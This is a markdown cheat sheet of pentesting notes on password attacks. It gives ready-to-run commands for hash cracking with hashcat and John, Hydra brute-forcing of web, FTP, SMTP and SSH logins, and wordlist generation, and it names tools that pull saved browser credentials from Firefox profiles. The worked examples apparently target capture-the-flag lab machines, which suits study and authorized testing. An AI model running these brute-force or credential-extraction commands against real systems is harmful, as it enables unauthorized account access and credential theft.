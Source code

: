 

# Basics
- cracking: from hash
- guessing: from dictionary (loud)
- dump = leaks of passwords/hash
- Combine
  - cat file1 file2 > file3
  - sort fil3 | uniq u > cleaned

# Hashcat
- Identify hash
  - hashid
  - hashidentifier

- wordlist
  - hashcat target /path/to/word/list
- hashcat
  - a 0 = dictionary attack
    - dictionary = list | brute-force = guessing
  - -m 0 = type of hash
  - -a 3 = brute force method
  - ?d = use digit for generating
  - TOTAL_CHARACTERS = generate list

- [Crackstation](https://crackstation.net/)
  
# John
- Using rules
  - john --wordlist=existing_list --rules=pick_one --stdout
  - --format=ENCRYPTION
  - adding rule
    - conf file: [rule_name] Az"[0-9]" ^[!@#$]

# Hydra
- hydra -l username -P wordlist.txt server service
- hydra -l username -P wordlist.txt service://server (hydra -l -u $target smb -V -f)
- -d = debug
- -v = verbose
- -V = show attempts
  - vV = more info
- -f = terminate if found
- -s = port to connect
- -t = number threadlos
- hydra MODULE -U


- web
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* **"/[PATH_TO_LOGIN]:[body_request]:[F|S]=[ERROR_MESSAGE]"** -vV -f
    - F:failing strings
    - S:sucessfull strings
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* **"/[request]:username=^USER^&password=^PASS^:F=incorrect"** -v
  
  - hydra -l USERNAME -P WORDLIST_FILE server *request-method* '/login.aspx:BODY_PARAMETER_WITH_PASSWORD:S=logout.php' -f
  
    - Request: *HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy*
    - IP/URL http-get-form | http-post-form "/login-get/index.php:[BODY_CONTENT]&username=^USER^&PASSWORD=^PASS:S=logout.php" -f
    - for post: whole POST BODY
      - S= [message_for_success]
      - F= [message_for_failed]
      - -V Verbose
      - -f = stop attack after finding
      - -L = List of usernames
      - -s=302 ==> sucessfull redirect

```
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt.gz $target http-post-form\n'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.131%2Fwp-admin%2F&testcookie=1:ERROR: The password you entered for the username elliot is incorrect. Lost your password?'  -f

hydra -l milesdyson -P log1.txt $target http-post-form '/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect.'\n

```

- FTP
  - hydra -l [USERNAME] -P password.lst ftp://IP

- SMPT
  - -l email@address.com -P [Password_List] smtp://IP -v

- SSH
  - -L [USER_LIST] -P [PASS_LIST] ssh://IP -v

# Brutespray
- Toll that uses result from nmap scan .xml
- [Information here](https://github.com/x90skysn3k/brutespray)

# Creating Wordlists
- cewl URL
  - -w = output
  - -d 5 = depth
  - -m 5 = minimum
  
- username_gennerator.py

- crunch
  - combination of characters
  - crunch 2 2 123456abcd -o output
  - -t startpassword[symbol1][symbol2]
    - @ lower case
    - , upercase
    - % numeric
    - ^ special

- cupp
  - based on information of the target, birthdate, pet, etc
  - https://github.com/Mebus/cupp.git

# Mozillas files
- Files
  - .db
  - logins.json
  - cookies.sqlite
- https://github.com/lclevy/firepwd.git
- https://github.com/unode/firefox_decrypt.git
- msfconsole:
  -  use post/multi/gather/firefox_creds = extract files